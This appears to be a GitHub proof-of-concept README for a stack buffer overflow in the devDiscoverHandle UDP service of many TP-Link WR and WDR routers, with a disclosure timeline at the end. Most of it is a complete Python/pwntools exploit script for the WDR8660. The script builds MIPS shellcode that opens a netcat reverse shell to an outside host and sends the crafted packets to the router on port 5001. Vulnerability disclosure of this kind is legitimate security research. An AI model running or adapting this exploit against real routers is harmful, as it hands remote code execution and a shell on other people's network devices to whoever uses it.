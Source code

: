 # TP-Link-poc

TP-Link router have a stack overflow in devDiscoverHandle server.

Any user can get remote code execution through LAN, this vulnerability currently affects latest WR、WDR series, including WDR7400,WDR7500,WDR7660,WDR7800, WDR8400,WDR8500,WDR8600,WDR8620,WDR8640,WDR8660,WR880N,WR886N,WR890N,WR890N,WR882N,WR708N etc. It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability description

This vulnerability happen when  devDiscoverHandle  receive data by using `recvfrom` from `udp port 5001`.Then enter the `protocol_handler`->`parse_advertisement_frame`->`copy_msg_element`.In the function of `copy_msg_element` we can control `iParm1` and `iParm3` that It lead to a stack buffer overflow to execute arbitrary code.

![](./1.png)

## Poc

Refer to this video: [poc_video.mkv](./poc_video.mkv)

**poc&exp**

It's for WDR8660
```
import sys
import struct
import requests
from pwn import *
from time import sleep

context.arch='mips'
context.endian='little'

udp_data_addr = 0x0419680

def fix_checksum(data):
    checksum = 0
    for off in range(0, len(data), 2):
        checksum += u16(data[off:off+2])
    checksum &= 0xffffffff
    while True:
        if (checksum >> 0x10) == 0:
            break
        checksum = (checksum & 0xffff) + (checksum >> 0x10)
    checksum &= 0xffff
    return p16(0xffff - checksum)

context.arch='mips'
context.endian='little'

magic = b'\x01\x02\x0e\x00\xe1\x2b\x83\xc7'
shellcode = asm(shellcraft.nop()*0x8) + asm(shellcraft.execve(path = "/bin/sh", argv=['sh', '-c', 'mknod /tmp/a p; nc 192.168.1.102 8080 0</tmp/a | /bin/sh 1>/tmp/a 2>&1;']))

gadget1 = p32(udp_data_addr + 0x300)
pad2 = b'shellcode'.ljust(600-0x10, b'\x00') + gadget1

context.endian='big'
tmp = b'\x00\x05' + p16(len(pad2)) + pad2

checksum = fix_checksum(magic + p16(len(tmp)) + tmp)
payload2 = magic + checksum + p16(len(tmp)) + b'\x00\x00' + tmp

pad2 = b'helo'
tmp = b'\x00\x05' + p16(len(pad2)) + pad2
checksum = fix_checksum(magic + p16(len(tmp)) + tmp)
payload1 = (magic + checksum + p16(len(tmp)) + b'\x00\x00' + tmp).ljust(0x300, b'\x00') + shellcode

assert(len(payload1) < 0x5c0)
assert(len(payload2) < 0x300)

print("[*] Sending payload1")
udp=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
udp.sendto(payload1,('192.168.1.1',5001))
udp.close()

sys.stdout.write('[*] Waiting for 20 seconds')
i = 1
while i <= 20:
    sleep(1)
    sys.stdout.write('.')
    sys.stdout.flush()
    i += 1

print('')
print("[*] Sending payload2")
udp=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
udp.sendto(payload2,('192.168.1.1',5001))
udp.close()
sleep(1)
print("[+] Success")

```

## Timeline
2020.11.7 show in TFC conntest

2020.11.15 report to CVE and TP-Link
